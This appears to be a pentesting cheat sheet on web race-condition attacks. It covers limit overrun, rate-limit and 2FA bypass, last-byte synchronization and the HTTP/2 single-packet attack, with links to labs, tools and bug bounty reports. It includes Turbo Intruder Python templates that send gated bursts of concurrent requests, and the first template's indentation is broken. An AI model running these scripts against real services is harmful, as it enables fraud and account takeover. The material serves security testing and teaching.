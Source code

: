 # Race Condition

> Race conditions may occur when a process is critically or unexpectedly dependent on the sequence or timings of other events. In a web application environment, where multiple requests can be processed at a given time, developers may leave concurrency to be handled by the framework, server, or programming language. 

## Summary

- [Tools](#tools)
- [Labs](#labs)
- [Exploit](#exploit)
    - [Limit-overrun](#limit-overrun)
    - [Rate-limit bypass](#rate-limit-bypass)
- [Techniques](#techniques)
    - [HTTP/1.1 last-byte synchronization](#http11-last-byte-synchronization)
    - [HTTP/2 Single-packet attack](#http2-single-packet-attack)
- [Turbo Intruder](#turbo-intruder)
    - [Example 1](#example-1)
    - [Example 2](#example-2)
- [References](#references)


## Tools

* [PortSwigger/turbo-intruder](https://github.com/PortSwigger/turbo-intruder) - a Burp Suite extension for sending large numbers of HTTP requests and analyzing the results.
* [JavanXD/Raceocat](https://github.com/JavanXD/Raceocat) - Make exploiting race conditions in web applications highly efficient and ease-of-use.
* [nxenon/h2spacex](https://github.com/nxenon/h2spacex) - HTTP/2 Single Packet Attack low Level Library / Tool based on Scapy‌ + Exploit Timing Attacks


## Labs

* [PortSwigger - Limit overrun race conditions](https://portswigger.net/web-security/race-conditions/lab-race-conditions-limit-overrun)
* [PortSwigger - Multi-endpoint race conditions](https://portswigger.net/web-security/race-conditions/lab-race-conditions-multi-endpoint)
* [PortSwigger - Bypassing rate limits via race conditions](https://portswigger.net/web-security/race-conditions/lab-race-conditions-bypassing-rate-limits)
* [PortSwigger - Multi-endpoint race conditions](https://portswigger.net/web-security/race-conditions/lab-race-conditions-multi-endpoint)
* [PortSwigger - Single-endpoint race conditions](https://portswigger.net/web-security/race-conditions/lab-race-conditions-single-endpoint)
* [PortSwigger - Exploiting time-sensitive vulnerabilities](https://portswigger.net/web-security/race-conditions/lab-race-conditions-exploiting-time-sensitive-vulnerabilities)
* [PortSwigger - Partial construction race conditions](https://portswigger.net/web-security/race-conditions/lab-race-conditions-partial-construction)


## Exploit

### Limit-overrun

Overdrawing limit, multiple voting, multiple spending of a gifcard.

**Examples**:

* [Race Condition allows to redeem multiple times gift cards which leads to free "money" - @muon4](https://hackerone.com/reports/759247)
* [Race conditions can be used to bypass invitation limit - @franjkovic](https://hackerone.com/reports/115007)
* [Register multiple users using one invitation - @franjkovic](https://hackerone.com/reports/148609)


### Rate-limit bypass

Bypassing anti-bruteforce mechanism and 2FA.

**Examples**:

* [Instagram Password Reset Mechanism Race Condition - Laxman Muthiyah](https://youtu.be/4O9FjTMlHUM)


## Techniques

### HTTP/1.1 last-byte synchronization

Send every requests execpt the last byte, then "release" each request by sending the last byte.

Execute a last-byte synchronization using Turbo Intruder

```py
engine.queue(request, gate='race1')
engine.queue(request, gate='race1')
engine.openGate('race1')
```

**Examples**:

* [Cracking reCAPTCHA, Turbo Intruder style - James Kettle](https://portswigger.net/research/cracking-recaptcha-turbo-intruder-style)


### HTTP/2 Single-packet attack

In HTTP/2 you can send multiple HTTP requests concurrently over a single connection. In the single-packet attack around ~20/30 requests will be sent and they will arrive at the same time on the server. Using a single request remove the network jitter.

* [turbo-intruder/race-single-packet-attack.py](https://github.com/PortSwigger/turbo-intruder/blob/master/resources/examples/race-single-packet-attack.py)
* Burp Suite
    * Send a request to Repeater
    * Duplicate the request 20 times (CTRL+R)
    * Create a new group and add all the requests
    * Send group in parallel (single-packet attack)

**Examples**:

* [CVE-2022-4037 - Discovering a race condition vulnerability in Gitlab with the single-packet attack - James Kettle](https://youtu.be/Y0NVIVucQNE)


## Turbo Intruder

### Example 1

1. Send request to turbo intruder
2. Use this python code as a payload of the turbo intruder
    ```python
    def queueRequests(target, wordlists):
        engine = RequestEngine(endpoint=target.endpoint,
                            concurrentConnections=30,
                            requestsPerConnection=30,
                            pipeline=False
                            )

    for i in range(30):
        engine.queue(target.req, i)
            engine.queue(target.req, target.baseInput, gate='race1')


        engine.start(timeout=5)
    engine.openGate('race1')

        engine.complete(timeout=60)


    def handleResponse(req, interesting):
        table.add(req)
    ```
3. Now set the external HTTP header x-request: %s - :warning: This is needed by the turbo intruder
4. Click "Attack"


### Example 2

This following template can use when use have to send race condition of request2 immediately after send a request1 when the window may only be a few milliseconds.

```python
def queueRequests(target, wordlists): 
    engine = RequestEngine(endpoint=target.endpoint, 
                           concurrentConnections=30, 
                           requestsPerConnection=100, 
                           pipeline=False 
                           ) 
    request1 = '''
POST /target-URI-1 HTTP/1.1
Host: <REDACTED>
Cookie: session=<REDACTED>

parameterName=parameterValue
    ''' 

    request2 = '''
GET /target-URI-2 HTTP/1.1
Host: <REDACTED>
Cookie: session=<REDACTED>
    '''

    engine.queue(request1, gate='race1')
    for i in range(30): 
        engine.queue(request2, gate='race1') 
    engine.openGate('race1') 
    engine.complete(timeout=60) 
def handleResponse(req, interesting): 
    table.add(req)
```

## References

* [DEF CON 31 - Smashing the State Machine the True Potential of Web Race Conditions - James Kettle](https://youtu.be/tKJzsaB1ZvI)
* [Smashing the state machine: the true potential of web race conditions - James Kettle / @albinowax - 09 August 2023](https://portswigger.net/research/smashing-the-state-machine)
* [Turbo Intruder: Embracing the billion-request attack - James Kettle - 25 January 2019](https://portswigger.net/research/turbo-intruder-embracing-the-billion-request-attack)
* [Race Condition Bug In Web App: A Use Case - Mandeep Jadon - Apr 24, 2018](https://medium.com/@ciph3r7r0ll/race-condition-bug-in-web-app-a-use-case-21fd4df71f0e)
* [Race conditions on the web - Josip Franjkovic - July 12th, 2016](https://www.josipfranjkovic.com/blog/race-conditions-on-web)
* [New techniques and tools for web race conditions - Emma Stocks - 10 August 2023](https://portswigger.net/blog/new-techniques-and-tools-for-web-race-conditions)
* [Exploiting Race Condition Vulnerabilities in Web Applications - Javan Rasokat](https://conference.hitb.org/hitbsecconf2022sin/materials/D2%20COMMSEC%20-%20Exploiting%20Race%20Condition%20Vulnerabilities%20in%20Web%20Applications%20-%20Javan%20Rasokat.pdf)
* [Beyond the Limit: Expanding single-packet race condition with a first sequence sync for breaking the 65,535 byte limit- @ryotkak  - August 2, 2024 ](https://flatt.tech/research/posts/beyond-the-limit-expanding-single-packet-race-condition-with-first-sequence-sync/)
